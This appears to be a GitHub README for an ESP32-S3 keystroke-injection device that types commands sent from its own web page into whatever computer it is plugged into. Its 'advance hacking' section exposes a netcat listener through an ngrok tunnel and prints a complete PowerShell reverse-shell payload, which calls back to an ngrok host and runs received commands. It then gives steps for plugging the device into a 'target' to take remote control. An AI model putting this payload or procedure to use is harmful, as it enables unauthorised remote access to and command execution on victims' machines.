 # PROJECT_K

**KEYSROKE INJECTION
MODULE USING ESP32
HID EMULATION DEVICE**
**this device will type command what we give from web server and run this script on the system**



first install aurdino ide software on window 
add libraries which are needed<br/> 
#include "Arduino.h"<br/>
#include "USB.h"<br/>
#include "USBHIDKeyboard.h"<br/>
#include <WiFi.h><br/>
#include <WebServer.h><br/>


  1. Open Arduino IDE.
  2. Go to `Tools` > `Board` > `Boards Manager`.
  4. Search for "ESP32" and install the package by Espressif Systems.
  5. goto tools in main page of ide.
  6. click on boards
  7. then select esp32 s3 boards.
  8. copy and paste code which is provided on github repo.
  10. change wifi password to your wifi settings.
  11. change payload if needed
  12. Connect the ESP32-S3 Mini to Your Computer

    - Use a USB cable to connect the ESP32-S3 Mini to your computer.

    - If the device is not recognized, you may need to install the appropriate USB-to-UART bridge drivers. Common drivers include:
  12. Select the Correct Port

    - In the Arduino IDE, navigate to `Tools` > `Port`, and select the port corresponding to your ESP32-S3 Mini device.
  13. Upload the Sketch

    - Click the upload button (right-pointing arrow) in the Arduino IDE to compile and upload the sketch to your device.

    **Note**: Some users have reported issues when uploading code to the ESP32-S3 Mini. If you encounter such problems, you might need to manually set the device to bootloader mode:

    - Press and hold the `BOOT` button on the device.

    - While holding the `BOOT` button, press the `RESET` button once.

    - Release the `BOOT` button.


  ## Connecting to Wi-Fi ##

    -  now plugin the device into pc/laptop. 
    -  you get ip address of the device connnected to wifi in serial monitor. copy the ip address from it and paste on the         broswer search bar.
    -  then press enter.
    -  then a local webpage will open on broswer. webpage will look like the image shown below
   ![Alt text](img.jpg)

   
    - now paste your script to execte on powershell window 
    - then click **send** to execute on laptop/pc.

**this is the project keystroke injection module **



## now for advance  hacking we use kali linux, reverse powershell, ngrok server

  ## work to done on kali linux

  1. use kali liux os in one of your system
  2. then we want to install ngrok in the kali linux os
  3. open command prompt in the kali
  4. paste the command

         curl -sSL https://ngrok-agent.s3.amazonaws.com/ngrok.asc \
          | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null \
          && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" \
         | sudo tee /etc/apt/sources.list.d/ngrok.list \
          && sudo apt update \
          && sudo apt install ngrok
  5. now login to accout to ngrok account and copy your authentication TOKEN
  6. now type the command and paste token to login to your account in kali linux.

         ngrok config add-authtoken <TOKEN>

  
  7.we want to setup  server to avalible on public host

        ngrok tcp 1337
        
  8.then we want to setup listner for reverse shell connection

        nc -lvnp 1337

  9. output window will be like

    ngrok                           (Ctrl+C to quit)

    Session Status                online
    Account                       inconshreveable (Plan: Free)
    Version                       3.0.0
    Region                        United States (us)
    Latency                       78ms
    Web Interface                 http://127.0.0.1:4040
    Forwarding                    tcp://0.tcp.in.ngrok.io:15660 -> http://localhost:8080

    Connections                   ttl     opn     rt1     rt5     p50     p90
                                  0       0       0.00    0.00    0.00    0.00


10. we need to copy the ngrok port number it would be like 15660 or other 5 digit number:

        tcp://0.tcp.in.ngrok.io:15660
    

## payload part

1. our payload is a reverse powershell code which makes a powershell connection to the listner. we need to setup ngrok before executing payload.
2. code

        $client = New-Object System.Net.Sockets.TCPClient("0.tcp.in.ngrok.io", 15660)
        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}
        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
        $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
        $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()
        }
        $client.Close()
3.now replace 15660 number with latest ngrok server port from this line

     $client = New-Object System.Net.Sockets.TCPClient("0.tcp.in.ngrok.io", 15660)

# Now the final part of hacking

  ** IN Kali linux **
  ##1.  now start ngrok server. <br/>
  ##2.  plug in the device to target.<br/>
  ##2.  open broswer and type ip address and click enter.<br/>
  ##3.  now paste payload in textbox and then click send<br/>
  ##4.  In 5 second you will get connetion of target system in kali linux.<br/>
  ##5.  Then click enter. <br/>
  ##6.  now access of powershell has been to the kali linux.<br/>
  ##7.  we can execute so many commands to the system.<br/>
  




    
    
  

    




